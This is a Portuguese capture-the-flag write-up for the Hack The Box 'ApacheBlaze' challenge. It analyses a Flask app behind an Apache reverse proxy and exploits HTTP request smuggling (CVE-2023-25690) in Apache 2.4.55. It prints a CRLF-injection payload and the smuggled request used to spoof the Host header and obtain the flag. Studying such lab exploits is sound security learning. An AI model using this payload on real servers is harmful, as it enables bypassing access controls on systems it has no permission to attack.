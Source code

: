 # ApacheBlaze

> Adentre o universo ApacheBlaze, um mundo de jogos arcade de clique. Há rumores de que ao jogar certos jogos, você tem a chance de ganhar um grande prêmio. Entretanto, antes de se divertir, você precisará solucionar o puzzle.

De acordo com a descrição do desafio, aparentemente temos que encontrar um grande prêmio escondido em algum jogo.

## Reconhecimento

Na página inicial, temos uma listagem de jogos disponíveis.

<figure><img src="../../../../.gitbook/assets/ctfhtbchallengesapacheblazeindex.png" alt=""><figcaption><p>ApacheBlaze - Página inicial da aplicação</p></figcaption></figure>

Repare no último jogo, **Click topia**. Sua descrição sugere que ele nos dará a flag. Como o desafio fornece o código-fonte, podemos analisar para tentar entender o que acontece ao clicar nesse jogo.

{% code title="challenge/backend/src/app.py" lineNumbers="true" %}
```python
from flask import Flask, request, jsonify

# Cria uma instância do Flask
app = Flask(__name__)

# Configurações da aplicação
app.config['GAMES'] = {'magic_click', 'click_mania', 'hyper_clicker', 'click_topia'}  # Jogos disponíveis
app.config['FLAG'] = 'HTB{f4k3_fl4g_f0r_t3st1ng}'  # Flag para o jogo 'click_topia'

@app.route('/', methods=['GET'])
def index():
    # Obtém o nome do jogo a partir dos parâmetros da URL
    game = request.args.get('game')

    # Verifica se o nome do jogo foi fornecido
    if not game:
        return jsonify({
            'error': 'Empty game name is not supported!.'  # Retorna erro se o nome do jogo estiver vazio
        }), 400
        # Verifica se o jogo está na lista de jogos disponíveis
    elif game not in app.config['GAMES']:
        return jsonify({
            'error': 'Invalid game name!'  # Retorna erro se o jogo não for válido
        }), 400
    # Verifica se o jogo é 'click_topia'
    elif game == 'click_topia':
        print(request.headers)
        # Verifica se o cabeçalho 'X-Forwarded-Host' é 'dev.apacheblaze.local'
        if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
            return jsonify({
                'message': f'{app.config["FLAG"]}'  # Retorna a flag se a condição for atendida
            }), 200
        else:
            return jsonify({
                'message': 'This game is currently available only from dev.apacheblaze.local.', # Mensagem se a condição não for atendida
                'X-Forwarded-Host': request.headers.get('X-Forwarded-Host')  # Retorna o cabeçalho 'X-Forwarded-Host'
            }), 200

    # Caso o jogo não seja 'click_topia'
    else:
        return jsonify({
            'message': 'This game is currently unavailable due to internal maintenance.'  # Mensagem de manutenção
        }), 200
        
```
{% endcode %}

Perceba que a aplicação realiza uma validação utilizando o cabeçalho `X-Forwarded-Host`. Caso a requisição contenha esse cabeçalho com o valor `dev.apacheblaze.local`, a flag é retornada como JSON. Podemos, então, tentar realizar a requisição passando esse cabeçalho como parâmetro:

<figure><img src="../../../../.gitbook/assets/ctfhtbchallengesapacheblazecurl_request.png" alt=""><figcaption><p>ApacheBlaze - Requisição definindo o cabeçalho "X-Forwarded-For"</p></figcaption></figure>

Infelizmente essa tentativa não foi bem sucedida. Podemos alterar o código-fonte e fazer a aplicação retornar os cabeçalhos após uma requisição.

{% code overflow="wrap" %}
```json
{
  "X-Forwarded-Host": "dev.apacheblaze.local, localhost:1337, 127.0.0.1:8080",
  "message": "This game is currently available only from dev.apacheblaze.local."
}
```
{% endcode %}

E observe que o valor do cabeçalho `X-Forwarded-Host` contém o valor que informamos, porém são adicionados outros dois endereços separados por vírgula. Esse comportamento se deve por conta de a aplicação ter configurado um proxy reverso através do Apache. Podemos encontrar essa configuração definida dentre os arquivos do código-fonte:

{% code title="conf/httpd.conf" %}
```apacheconf
...SNIP
# Define um VirtualHost que escuta na porta 1337.
<VirtualHost *:1337>

    # Define o nome do servidor para este VirtualHost.
    ServerName _

    # Define o diretório raiz dos documentos para este VirtualHost.
    DocumentRoot /usr/local/apache2/htdocs

    # Habilita o mecanismo de reescrita de URLs.
    RewriteEngine on

    # Define uma regra de reescrita que redireciona solicitações para /api/games/ para o backend na porta 8080.
    RewriteRule "^/api/games/(.*)" "http://127.0.0.1:8080/?game=$1" [P]

    # Define a configuração de ProxyPassReverse para ajustar os cabeçalhos de resposta do backend.
    ProxyPassReverse "/" "http://127.0.0.1:8080:/api/games/"

</VirtualHost>
SNIP...
```
{% endcode %}

Por conta disso, a cada redirecionamento do proxy (de acordo com a documentação do [mod\_proxy](https://httpd.apache.org/docs/2.4/mod/mod\_proxy.html)) o Apache inclui o endereço de origem no cabeçalho `X-Forwarded-Host`.  Ou seja, precisamos de uma forma de contornar isso e definir o endereço do host como o endereço que a aplicação valida (`dev.apacheblaze.local`).

## Exploração

Pesquisando um pouco, foi possível encontrar uma vulnerabilidade de HTTP Request Smuggling ([CVE-2023-25690](https://github.com/dhmosfunk/CVE-2023-25690-POC)) associada ao Apache, e a versão que é utilizada na aplicação (2.4.55) ainda não recebeu a correção. Dessa forma, podemos explorar essa vulnerabilidade para definir o valor do cabeçalho `Host` como `dev.apacheblaze.local`. Isso é possível prefixando a URL da requisição com o payload malicioso, que seria o seguinte:

```http
%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/
```

Esse payload aproveita dos caracteres CR e LF para inserir uma outra requisição junto da requisição genuína.

## Prova de Conceito

Prefixando a requisição genuína com o payload malicioso, obtemos o seguinte resultado:

```http
GET http://dev.apacheblaze.local/api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
Host: 94.237.62.198:33097
```

Essa requisição é interpretada pelo back-end como duas requisições, da seguinte forma:

```http
GET http://dev.apacheblaze.local/api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local

GET/ HTTP/1.1
Host: 94.237.62.198:33097
```

Perceba que ao trocarmos os caracteres URL-encoded por sua versão não codificada, obtemos o resultado acima. Isso faz com que a aplicação processe a primeira requisição injetando o valor do cabeçalho `Host` no cabeçalho `X-Forwarded-For`, que nesse caso fica como `dev.apacheblaze.local` e retorna a flag com sucesso.

